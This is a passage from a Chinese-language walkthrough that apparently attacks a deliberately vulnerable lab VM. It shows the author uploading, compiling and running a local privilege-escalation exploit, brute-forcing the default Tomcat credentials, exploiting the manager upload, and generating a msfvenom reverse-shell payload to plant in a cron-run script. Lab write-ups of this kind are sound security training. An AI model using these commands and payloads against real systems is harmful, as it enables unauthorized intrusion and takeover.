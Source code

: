 `scp /Downloads/37292.c  [typhoon@192.168.56](mailto:typhoon@192.168.56).150:/home/typhoon/`

[![](https://p1.ssl.qhimg.com/t0193af842c0cc46b62.jpg)](https://p1.ssl.qhimg.com/t0193af842c0cc46b62.jpg)

上传之后看一下成功了没,然后编译并运行

`ls`<br>`gcc 37292.c -o 37292`<br>`ls`<br>`./37292`

成功提权

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01dfa0ddab2860357b.jpg)

### <a class="reference-link" name="8080%E7%AB%AF%E5%8F%A3(Tomcat)"></a>8080端口(Tomcat)

浏览器访问 [http://192.168.56.150:8080](http://192.168.56.150:8080)

[![](https://p3.ssl.qhimg.com/t01f925cd6c2831a1fc.png)](https://p3.ssl.qhimg.com/t01f925cd6c2831a1fc.png)

发现需要登录

[![](https://p5.ssl.qhimg.com/t0175c2de8021010d94.png)](https://p5.ssl.qhimg.com/t0175c2de8021010d94.png)

于是想用msf测试存在账号密码

[![](https://p0.ssl.qhimg.com/t010752030af95abc4f.jpg)](https://p0.ssl.qhimg.com/t010752030af95abc4f.jpg)

[![](https://p2.ssl.qhimg.com/t0178b549c5bb86d763.jpg)](https://p2.ssl.qhimg.com/t0178b549c5bb86d763.jpg)

等到账号密码<br>
username: tomcat<br>
password: tomcat

利用mgr_upload漏洞

[![](https://p4.ssl.qhimg.com/t012c83f03783699fa0.jpg)](https://p4.ssl.qhimg.com/t012c83f03783699fa0.jpg)

`python -c 'import pty;pty.spawn("/bin/bash")'`进行交互

最后再tab文件里发现一个.sh文件具有高的执行权限，就想着往里面写代码进行再次提权.

[![](https://p1.ssl.qhimg.com/t013f654a7b802db79a.png)](https://p1.ssl.qhimg.com/t013f654a7b802db79a.png)

这时需要msfvenom创建bash代码

`msfvenom -p cmd/unix/reverse_netcat lhost=192.168.56.1 lport=5555 R`

[![](https://p3.ssl.qhimg.com/t014ee8f439aaeb72a4.png)](https://p3.ssl.qhimg.com/t014ee8f439aaeb72a4.png)

将生成的恶意代码添加到script.sh文件中
